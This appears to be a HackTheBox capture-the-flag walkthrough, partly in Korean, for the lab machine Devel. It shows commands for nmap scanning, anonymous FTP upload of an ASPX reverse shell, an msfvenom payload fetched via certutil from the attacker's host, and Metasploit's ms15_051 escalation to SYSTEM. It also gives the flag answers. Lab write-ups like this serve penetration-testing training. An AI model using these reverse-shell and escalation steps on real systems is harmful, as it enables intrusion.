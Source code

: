 # HackTheBox Walkthrough - Machine: Devel

**Target IP**: 10.129.62.33  
**Difficulty**: Easy  
**Objective**: Gain system access via FTP + ASPX webshell and escalate privileges to retrieve both user and root flags.

---

## Task 1  
**Question**: What is the name of the service running on TCP port 21 on the target machine?  
**Answer**: `Microsoft ftpd`  

**Process**:
- 실행 명령:  
  ```bash
  nmap -sV -sC -oA nmap/Devel 10.129.62.33
  ```
  ![nmap](img/nmap.png)

- 결과:
  ```
  21/tcp open  ftp     Microsoft ftpd
  ```
  ![ftp](img/ftp.png)

- 익명 로그인 가능 및 기본 웹파일 존재 확인

---

## Task 2  
**Question**: Which basic FTP command can be used to upload a single file onto the server?  
**Answer**: `put`  

- FTP 세션에서 파일 업로드 시 사용됨

---

## Task 3  
**Question**: Are files put into the FTP root available via the webserver?  
**Answer**: `yes`  

- 웹서버 루트와 FTP 루트가 동일하여 업로드한 파일을 HTTP로 확인 가능

---

## Task 4  
**Question**: What file extension is executed as a script on this webserver?  
**Answer**: `aspx`  
![Net](img/Net.png)

- 서버 정보: `X-Powered-By: ASP.NET`  
- `.php` 미작동, `.aspx` 파일만 실행됨

---

## Submit User Flag

**과정**:
1. GitHub에서 ASPX 리버스 셸 다운로드  
   https://github.com/borjmz/aspx-reverse-shell
2. FTP로 업로드:  
   ```bash
   ftp> put shell.aspx
   ```
3. 리스너 대기:  
   ```bash
   nc -nlvp 9999
   ```
4. 웹 브라우저에서 접속:  
   ```
   http://10.129.62.33/shell.aspx
   ```
![shellconnect](img/shellconnect.png)

5. 쉘 획득 후 `user.txt` 확인:  
   ```bash
   type C:\Users\babis\Desktop\user.txt
   ```
![uesrflag](img/uesrflag.png)

**Answer**: `5b8faa08515e0b393c478f508f68eb70`

---

## Task 5  
**Question**: Which metasploit reconnaissance module can be used to list possible privilege escalation paths on a compromised system?  
**Answer**: `local_exploit_suggester`  

## Privilege Escalation

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.156 LPORT=4444 -f exe > shell.exe
certutil -urlcache -f http://10.10.14.156:7777/shell.exe shell.exe
```
![payload](img/payload.png)

![meterpreter](img/meterpreter.png)

```bash
msfconsole
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
set lhost tun0
run
```

![local_exploit_suggester](img/local_exploit_suggester.png)

```bash
use post/multi/recon/local_exploit_suggester
set session 1
run
```

12번 실패 → 10번 exploit 사용

```bash
use exploit/windows/local/ms15_051_client_copy_image
set session 1
set LHOST 10.10.14.156
run
```

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

![root](img/root.png)

```bash
cat user.txt
```
> 5b8faa08515e0b393c478f508f68eb70

---

## Submit Root Flag

Submit the flag located on the administrator's desktop.  
![rootflag](img/rootflag.png)

```bash
type C:\Users\Administrator\Desktop\root.txt
```

**Answer**: `935e27c70167f547427c88fbf04c1876`

---
